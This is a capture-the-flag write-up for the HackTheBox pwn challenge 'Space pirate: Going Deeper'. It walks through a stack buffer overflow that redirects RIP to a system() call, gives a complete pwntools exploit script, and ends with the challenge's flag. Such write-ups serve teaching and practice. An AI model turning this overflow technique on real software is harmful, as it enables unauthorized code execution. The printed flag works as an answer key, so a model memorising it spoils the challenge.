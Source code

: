 # Space pirate: Going Deeper
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ebdde67e-6dfa-4ecd-9f1f-fa70e7b730b5)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Buffer Overflow.
3. Return to system() --> using lea offset.

## DESCRIPTION:
We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. 
The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. 
Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. 
Can you disable the mechanisms and take control of the Admin Panel?


## STEPS:
1. Unzipping the zip file resulting to a 64 bit binary file.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7891a42f-5843-4d71-ac5b-7667676e6464)


2. Let's check the binary's protections.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/0e695117-aab9-468e-919e-be825df29cbc)


3. Let's decompile the binary.
4. At the `main()` function, the `admin_panel()` function shall be our interest because it's where our input accepted.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/b5c990b1-807d-401c-9ff1-d311b50d39cd)


5. We can get the flag if our previous parameters are the same as these:

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/11312e9c-cff6-4c7a-9645-074ee185edf4)


6. Anyway there's a `system()` call that auto cat the flag.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/94239da8-ad83-443d-885c-80c0740dfeed)


![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/4471baf8-7d30-4303-8565-84929f5592f7)


7. Hence the pwn concept is to control the RIP by overflowing the buffer then add the `lea` offset.

```
padding + lea_offset
```

8. First we need to find the offset for RIP.
9. Let's use peda.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/3d4087da-394d-4189-b8ee-b356d7ae7a3d)


10. Sadly it does not show us the bytes, hence we need to find it manually.
11. But the problem is, since we want to use the `system()` approach, hence we can't determine if the padding is correct or not, because it shall gave us the "EOF" statement.
12. Then let's assume to use 57 right now.
13. Next, grab the `lea` offset

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/f93f106f-32b7-4525-85b8-a9ccf7d4c8db)


14. Let's craft the script.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:  
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './sp_going_deeper'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

padding = 57 

lea_offset = 0x0000000000400b12
info('lea offset --> %#0x', lea_offset)

p = flat([
    asm('nop') * padding,
    lea_offset
])

sh.sendlineafter(b'>', b'1')
sh.sendlineafter(b':', p)
sh.interactive()
```

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7af41ac8-6d87-4a6a-8d8b-170c9780f195)


15. Let's lowered it to 56.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/84427b43-f406-43bc-bcc1-ba5fb0bd3f1a)


16. Got the flag!
17. Let's test it remotely then.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7c483531-53c3-43c5-8183-6b2b1a574ac5)


18. Got the flag!

## FLAG

```
HTB{d1g_1n51d3..u_Cry_cry_cry}
```
